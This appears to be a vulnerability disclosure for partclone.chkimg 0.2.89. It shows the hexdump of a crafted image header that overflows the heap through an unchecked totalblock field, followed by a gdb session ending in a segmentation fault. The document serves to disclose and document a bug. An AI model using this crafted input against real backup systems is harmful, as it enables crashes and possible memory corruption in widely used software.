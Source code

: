 # Partclone_HeapOverFlow

Partclone.chkimg that checks image has a vulnerability with openning a maliciusly craft image file.

root@ubuntu:/partclone-0.2.89# hexdump -C hack.img | more
00000000  70 61 72 74 63 6c 6f 6e  65 2d 69 6d 61 67 65 45  |partclone-imageE|
00000010  58 54 46 53 00 00 00 00  00 00 00 00 00 00 30 30  |XTFS..........00|
00000020  30 31 00 00 00 04 00 00  00 20 bf 0c 00 00 00 00  |01....... ......|
00000030  c8 2f 03 00 00 ff ff ff  ba 7a 00 00 00 00 00 00  |./.......z......|
00000040  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|


(insufficient checking on offset 0x35 ~ 0x37 in image-header.totalblock)

root@ubuntu:/partclone-0.2.89# gdb ./partclone.chkimg

Reading symbols from ./partclone.chkimg...done.
(gdb) r -s hack.img

Starting program: partclone-0.2.89/src/partclone.chkimg -s hack.img

[Thread debugging using libthread_db enabled]

Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".

Partclone v0.2.89 http://partclone.org

Starting to check image (hack.img)

we need memory: 137438984768 bytes


image head 4160, bitmap 137438979580, crc 1028 bytes


Calculating bitmap... Please wait... image_hdr : 10000032fc8


totalblock size : 1099511836616


Program received signal SIGSEGV, Segmentation fault.


0x0804ed96 in pc_clear_bit (total=1099511836616, bitmap=0x8057d38, nr=1021504) at bitmap.h:53


53              bitmap[offset] &= ~(1UL << bit);


(gdb) x/x bitmap


0x8057d38:      0xffffffff


(gdb) p bitmap


$1 = (unsigned long *) 0x8057d38


(gdb) x/x bitmap+offset


0x8077000:      Cannot access memory at address 0x8077000		// Out of Heap memory area


(gdb) p offset


$2 = 31922


(gdb)



